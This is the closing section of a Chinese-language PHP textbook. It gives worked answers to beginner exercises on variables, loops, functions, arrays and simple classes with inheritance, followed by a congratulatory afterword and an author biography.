通过审慎地利用这些魔术方法，PHP 开发人员可以使他们的代码更加灵活、更加健壮且更易于维护，同时受益于应用程序设计中更强的表达能力。

### 练习答案

#### 练习 1

编写一个 PHP 脚本，定义一个包含您姓名的 `name` 变量和一个包含您年龄的 `age` 变量。接下来，脚本应显示一条消息："Hello [your name], you're [your age] years old!"。

##### 答案

```php
$name = "John"; // 替换为您的姓名
$age = 30; // 替换为您的年龄
echo "Hello $name, you are $age years old!";
```

#### 练习 2

编写一个 PHP 脚本，将一个人的姓氏、名字和年龄存储在变量中，并使用连接运算符以句子的形式显示这些信息。

##### 答案

```php
$lastname = "Strock";
$firstname = "John";
$age = 30;
echo "Hello, my name is " . $firstname . " " . $lastname . " and I'm " . $age . " years old.";
```

#### 练习 3

编写一个 PHP 程序，将产品的价格存储在 `$price` 变量中，将数量存储在 `$quantity` 变量中，并通过将价格乘以数量来计算和显示订单的总金额。

##### 答案

```php
$price = 39; // 单价
$quantity = 7; // 订购数量
$total = $price * $quantity; // 计算总金额
echo "The total amount of the order is : $total euros";
```

#### 练习 4

编写一个脚本，检查存储在变量中的数字是正数、负数还是零。

##### 答案

```php
$number = 34;
if ($number > 0) {
    echo "The number is positive.";
} elseif ($number < 0) {
    echo "The number is negative.";
} else {
    echo "The number is zero";
}
```

#### 练习 5

编写一个程序，使用条件指令检查按 100 分制评估的学生技能发展情况。

- 如果胜任度水平达到 80% 或以上，学生将被分在第一组。
- 如果胜任度在 50% 到 80% 之间，学生将被分在第二组。
- 如果胜任度在 30% 到 50% 之间，学生将被分在第三组。
- 如果胜任度水平低于 30%，学生将不及格。

##### 答案

```php
$degreeSkills = 60;
if ($degreeSkills >= 80) {
    $group = "Group 1";
} elseif ($degreeSkills >= 50) {
    $group = "Group 2";
} elseif ($degreeSkills >= 30) {
    $group = "Group 3";
} else {
    $group = "Failure";
}
echo "Student assignment group: $group";
```

#### 练习 6

编写一个条件脚本，测试一个数字是否同时是 3 和 5 的倍数。

##### 答案

```php
$x = 1325775;
if ($x % 3 == 0 && $x % 5 == 0) {
    echo $x . " is a multiple of 3 and 5 <br />";
} else {
    echo $x . " is not a multiple of 3 or 5 <br>";
}
```

#### 练习 7

编写一个程序，根据数字使用 switch 语句显示星期几（例如 Monday）。

- 第 1 天视为 Monday
- 如果数字不在 1 到 7 之间，默认显示 "invalid number"。

##### 答案

```php
$day = "3";
switch ($day) {
    case "1":
        echo "It's Monday!";
        break;
    case "2":
        echo "It's Tuesday!";
        break;
    case "3":
        echo "It's Wednesday!";
        break;
    case "4":
        echo "It's Thursday!";
        break;
    case "5":
        echo "It's Friday!";
        break;
    case "6":
        echo "It's Saturday!";
        break;
    case "7":
        echo "It's Sunday! ";
        break;
    default:
        echo "Invalid number!";
}
```

#### 练习 8

编写一个程序，使用 while 循环显示从 10 到 50 的整数。

##### 答案

```php
$nb = 10;
while ($nb <= 50) {
    echo $nb;
    echo "<br>" ;
    $nb++;
}
```

#### 练习 9

使用 for 循环，编写一个程序计算从 1 到 20 所有整数的乘积 (1x2x3x4x5x.....x19x20)。然后显示结果。

##### 答案

```php
$product = 1;
for ($x = 1; $x <= 20; $x++) {
    $product = $product * $x;
}
echo "The product of all numbers from 1 to 20 is $product";
```

#### 练习 10

编写 7 的乘法表（针对从 1 到 100 的所有数字），使用 for 循环。该表应以无序列表的形式呈现。

##### 答案

```php
echo '<ul>';
for ($i = 1; $i <= 10; $i++)
    echo '<li>' . $i . ' x 7 = ' . ($i * 7) . '</li>';
echo '</ul>';
```

#### 练习 11

编写一个程序计算以下求和：

1 + 3 + 3² + 3³ + 3⁴ + 3⁵ + ... ... + 3²⁰

##### 答案

```php
$x = 3;
$n = 20;
$sum = 0;
for ($i = 0; $i <= $n; $i++) {
    $term = $x ** $i;
    $sum = $sum + $term;
}
echo $sum;
```

#### 练习 12

编写一个函数，测试一个数字是否为 3 的倍数，并根据测试结果显示一条消息。

##### 答案

```php
function multiples_of_three($x) {
    if ($x % 3 == 0) {
        echo "The number $x is a multiple of 3";
    } else {
        echo "The number $x is not a multiple of 3";
    }
}

multiples_of_three(3672);
echo "<br>";
multiples_of_three(10);
```

#### 练习 13

编写一个 PHP 函数，接收三个数字作为输入，并返回这三个数字中最大的一个。


##### 修正

```php
<?php

function greaterNumbers($number1, $number2, $number3) {
    $bigNumber = $number1;

    if ($number2 > $bigNumber) {
        $bigNumber = $number2;
    }

    if ($number3 > $bigNumber) {
        $bigNumber = $number3;
    }

    return $bigNumber;
}

// 使用示例
echo greaterNumbers(2, 7, -9);
```

#### 练习 14

编写一个函数，显示查找作为参数给定的两位整数所需的随机数。

##### 修正：使用 while 循环

```php
<?php

function find_number($number) {
    $Number_of_prints = 0;
    $Random_number = -1;

    while ($Random_number != $number) {
        $Random_number = random_int(0, 100);
        $Number_of_prints++;
        echo $Random_number . "<br>";
    }

    echo "The number " . $number . " is found after " . $Number_of_prints . " trials";
}

// 调用函数
find_number(43);
```

#### 练习 15

编写一个 PHP 脚本，将姓名列表存储在数组中，然后以项目符号列表的形式显示这些姓名。

##### 修正

```php
<?php

$names = array("Alice", "Bob", "Mohammed", "Charlie", "David", "Sara", "Eve");

echo "<ul>";

foreach ($names as $name) {
    echo "<li>" . $name . "</li>";
}

echo "</ul>";
```

#### 练习 16

编写一个 PHP 脚本，将三种颜色的名称存储在数组中，并按相反顺序显示它们。

##### 修正

```php
<?php

$colors = array("red", "green", "blue");
$reverseColors = array_reverse($colors);

foreach ($reverseColors as $color) {
    echo $color . "<br>";
}
```

#### 练习 17

编写一个 PHP 脚本，将姓名列表存储在数组中，并按字母顺序显示它们。

##### 修正

```php
<?php

$firstnames = array("Julie", "Paul", "Marie", "Luc", "Anne");
sort($firstnames);

foreach ($firstnames as $firstname) {
    echo $firstname . "<br>";
}
```

#### 练习 18

编写一个 PHP 脚本，创建一个包含水果名称和价格的关联数组，并使用 foreach 循环显示数组的每个元素。

##### 修正

```php
<?php

$fruits = array(
    "apple" => 2.5,
    "banana" => 1.8,
    "orange" => 3.2,
    "kiwi" => 4.0,
    "pineapple" => 6.5
);

foreach ($fruits as $fruit => $price) {
    echo "The price of a " . $fruit . " is " . $price . " euros.<br>";
}
```

#### 练习 19

编写一个多维关联数组，其键为人名，值为包含该人名、城市和年龄的索引数组。

然后使用此表为这些人中的每一个人显示一个句子，给出该人的名、姓和年龄。

##### 修正

```php
<?php

$tab = array(
    "Winder" => array("Pierre", "New York", 53),
    "Bikri" => array("Amine", "Chicago", 23),
    "Dupont" => array("Christpher", "Boston", 19)
);

foreach ($tab as $key => $value) {
    echo "The age of: " . $key . " " . $value[0] . " is: " . $value[2] . "<br>";
}
```

你可以调用 `print_r($tab)` 函数来查看结果。

#### 练习 20：函数和数组 (foreach)

编写一个 PHP 函数，接受一个数字数组作为输入，并返回所有这些数字的总和。

##### 修正

```php
<?php

function sum_tab($tab) {
    $sum = 0;

    foreach ($tab as $number) {
        $sum += $number;
    }

    return $sum;
}
```

使用示例：

```php
$my_array = array(1, 2, 3, 4, 5);
$result = sum_tab($my_array);
echo "The sum is: " . $result;
```

#### 练习 21：函数和数组 (foreach)

编写一个函数，接受一个数字数组作为参数，并返回数组中所有偶数的总和。

##### 修正

```php
<?php

function sum_even_numbers($tab) {
    $sum = 0;

    foreach ($tab as $number) {
        if ($number % 2 == 0) {
            $sum += $number;
        }
    }

    return $sum;
}
```

这是一个示例：

```php
$tab = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10];
$sum_even = sum_even_numbers($tab);
echo $sum_even;
```

#### 练习 22：函数和数组 (求平均值)

编写一个函数，接受一个数字数组作为参数，并返回数组中所有偶数的平均值。

##### 修正

```php
<?php

function average_of_even_numbers($tab) {
    $sum = 0;
    $nb_of_even_numbers = 0;

    foreach ($tab as $number) {
        if ($number % 2 == 0) {
            $sum += $number;
            $nb_of_even_numbers++;
        }
    }

    echo $nb_of_even_numbers;
    echo "<br>";

    $average = $sum / $nb_of_even_numbers;
    return $average;
}

$tab = [1, 2, 6, 8, 10, 9, 13, 14, 20];
echo average_of_even_numbers($tab);
```

#### 练习 23：函数和数组 (查找最大值)

编写一个函数，接受一个数字数组作为参数，并返回数组中所有数字的最大值。

##### 修正

```php
<?php

function find_max_number($tab) {
    $max = $tab[0];

    foreach ($tab as $number) {
        if ($number > $max) {
            $max = $number;
        }
    }

    return $max;
}

// 使用示例
$tab = array(100, 20, 56, 876150, 12, 6, 1000);
echo "The maximum value is: " . find_max_number($tab);
```

### 面向对象 PHP

#### 练习 24（不带构造函数的类）

编写一个表示城市的类。它必须拥有名称、省份、地区和人口数量属性，以及一个显示 "town X is in department Y of region Z and has N inhabitants"（城市 X 位于地区 Z 的 Y 省，拥有 N 名居民）的方法。

创建城市对象，分配其属性并使用显示方法。

##### 修正

```php
<?php

class City {
    public $name;
    public $department;
    public $region;
    public $inhabitants;

    public function getInfos() {
        echo "The city " . $this->name . " is in department: "
            . $this->department . " in region " . $this->region
            . " and has " . $this->inhabitants . " inhabitants <br>";
    }
}

// 创建城市对象
$city_1 = new City();
$city_1->name = "New York City";
$city_1->department = "New York";
$city_1->region = "Nord-Est";
$city_1->inhabitants = 8336817;
$city_1->getInfos();
```

#### 练习 25

创建一个 `Person` 类，包含以下属性：姓氏、名字、年龄。该类必须有一个 `presentation()` 方法，用于显示包含该人信息的字符串。

接下来，创建两个具有不同信息的 `Person` 类型对象，并为每个对象调用 `presentation()` 方法以显示每个人的信息。

##### 修正

```php
<?php

class Person {
    public $lastname;
    public $firstname;
    public $age;

    public function presentation() {
        echo "My name is " . $this->firstname . " "
            . $this->lastname . " and " . $this->age . " years old.";
    }
}

// 创建两个 Person 对象
$person1 = new Person();
$person1->lastname = "Smith";
$person1->firstname = "John";
$person1->age = 30;

$person2 = new Person();
$person2->lastname = "Dupond";
$person2->firstname = "Jane";
$person2->age = 25;

// 为每个对象调用 presentation() 方法
$person1->presentation(); // 显示 "My name is John Doe and I'm 30 years old."
echo "<br>";
$person2->presentation(); // 显示 "My name is Jane Smith and I'm 25 years old."
```

#### 练习 26

创建一个包含以下属性的 `Person` 类：

- `name`：该人的姓名
- `$age`：该人的年龄

`Person` 类必须包含以下方法：

- `__construct($name, $age)`：一个初始化姓名和年龄属性的构造函数
- `getName()`：一个返回该人姓名的方法
- `getAge()`：一个返回该人年龄的方法
- `setAge($age)`：一个修改该人年龄的方法

创建一个 `Person` 类的实例并显示其姓名和年龄。然后修改该人的年龄并显示新值。


##### 修正

```php
<?php

class Person {

    private $name;

    private $age;

    public function __construct($name, $age) {
        $this->name = $name;
        $this->age = $age;
    }

    public function getName() {
        return $this->name;
    }

    public function getAge() {
        return $this->age;
    }

    public function setAge($age) {
        $this->age = $age;
    }

}

$person1 = new Person("John Doe", 30);

echo "Name : " . $person1->getName() . "<br>";

echo "Age : " . $person1->getAge() . "<br>";

$person1->setAge(35);

echo "New age : " . $person1->getAge() . "<br>";
```

#### 练习 27

创建一个 `Vehicle` 类，包含以下属性：`brand`、`model`、`year`、`price`。这些属性应在构造函数中定义。

该类应为每个属性提供 getter 和 setter 方法，以及一个 `display()` 方法，用于以字符串形式显示车辆信息。

然后，创建一个 `Vehicle` 类型的对象（`vehicle1`）并传入初始信息，使用 `display()` 方法和 setter 方法来修改创建的 `vehicle1` 的信息。

##### 修正

```php
<?php

class Vehicle {

    private $brand;

    private $model;

    private $year;

    private $price;

    public function __construct($brand, $model, $year, $price) {
        $this->brand = $brand;
        $this->model = $model;
        $this->year = $year;
        $this->price = $price;
    }

    public function getBrand() {
        return $this->brand;
    }

    public function setBrand($brand) {
        $this->brand = $brand;
    }

    public function getModel() {
        return $this->model;
    }

    public function setModel($model) {
        $this->model = $model;
    }

    public function getYear() {
        return $this->year;
    }

    public function setYear($year) {
        $this->year = $year;
    }

    public function getPrice() {
        return $this->price;
    }

    public function setPrice($price) {
        $this->price = $price;
    }

    public function display() {
        echo "Vehicle " . $this->brand . " " . $this->model . " year " . $this->year . " - Price: " . $this->price . " euros";
    }

}

// 创建一个 Vehicle 类型的对象

$vehicle1 = new Vehicle("Mercedes", "C220", 2015, 27000);

// 使用方法修改车辆信息

$vehicle1->setYear(2018);

$vehicle1->setPrice(15000);

// 显示车辆信息

$vehicle1->display(); // 显示 "Vehicle Peugeot 308 year 2018 - Price: 15000 euros"
```

#### 练习 28（上一练习的延续）

创建一个继承自 `Vehicle` 类的 `Car` 类，并增加一个名为 `number_doors` 的属性。`Car` 类还应有一个考虑到该额外属性的构造函数。

`Car` 类应为 `number_doors` 属性提供 getter 和 setter 方法，以及一个 `display()` 方法，用于以字符串形式显示汽车信息，同时调用父类的 `display()` 方法。

然后，创建一个 `Car` 类型的对象并传入初始信息，使用 `display()` 方法和 setter 方法来修改汽车的信息。

##### 修正

```php
<?php

require_once "Vehicle.php";

class Car extends Vehicle {

    private $number_doors;

    public function __construct($brand, $model, $year, $price, $number_doors) {
        parent::__construct($brand, $model, $year, $price);
        $this->number_doors = $number_doors;
    }

    public function getNumberDoors() {
        return $this->number_doors;
    }

    public function setNumberDoors($number_doors) {
        $this->number_doors = $number_doors;
    }

    public function display() {
        parent::display();
        echo " - " . $this->number_doors . " doors";
    }

}

// 创建一个 Car 类型的对象

$car1 = new Car("Mercedes", "C220", 2024, 45000, 5);

$car1->display();
```

### 鼓励与祝贺

亲爱的读者，

恭喜您完成了这段深入探索 PHP 和 MySQL 内部运作的精彩旅程，从入门到精通。您已成功完成每一章的学习，在此过程中掌握了基础概念并磨练了技能。

#### 学习之旅

您对学习 PHP 和 MySQL Web 开发的投入令人钦佩。理解 PHP 编程的复杂性、掌握 MySQL 查询以及探索 Web 开发的可能性，均属显著成就。我们希望本书能成为您学习旅程中的宝贵资源。

#### 实践应用

请勿忽视实践应用的重要性。运用所学知识去创造、探索和实验。实战项目是精通技艺的基石，因此请毫不犹豫地将所学付诸实践。以下是我们的视频培训课程，助您通过实战学习。

#### 学习的连续性

Web 开发的世界瞬息万变，持续学习至关重要。我们建议您继续深造：进阶面向对象 PHP，然后是面向对象 PHP 中的 MVC 架构，最后是 Laravel、Symfony 等框架。

#### 您已是一名 Web 开发者！

恭喜您，您已掌握成为一名 Web 设计师所需的技能。无论您选择构建个人网站、参与开源项目，还是追求职业发展，您都已奠定所需的基础。

#### 保持联系

我们共同的旅程并未在此结束。让我们保持联系！加入在线社区，分享您的成就，提出问题并持续进化。Web 开发是一场集体冒险，而您如今已是这个令人兴奋的社区的一员。

#### 衷心祝贺！

代表本书背后的全体团队，我们向您致以最热烈的祝贺。您对学习的执着令人鼓舞，我们期待见证您未来开发出的精彩作品。

#### 本书还有哪些福利等着您？

*   **如果您有任何疑问或遇到任何困难，请随时联系我们：** `contact@skilldeve.com`

### 关于作者

Maximilien Lambert 是一位经验丰富的 Web 开发者和数字技术领域的培训师。凭借其公认的专业知识，他曾在世界知名机构主持过众多国际培训课程和研讨会。他卓越的教学方法赢得了学员们的高度赞誉，这得益于他将复杂概念化繁为简、让大众易于理解的能力。

作为一名拥有 20 多年经验的大学讲师，Maximilien Lambert 分享着他对学习和传授 IT 知识的热情。他丰富的教育领域经验使他能够激励世界各地的几代学习者，不仅传授技术技能，更传递 Web 开发行业的全球视野。

Maximilien Lambert 热衷于知识分享，擅长传授计算机技能，激励着世界各地的几代学习者。除了教学活动外，他还为专业人士提供专业培训，帮助他们磨练技能，保持在各自领域的前沿。

他对卓越的追求、对教学的热爱以及技术专长，使 Maximilien Lambert 成为 Web 开发和数字培训领域的重要标杆人物。

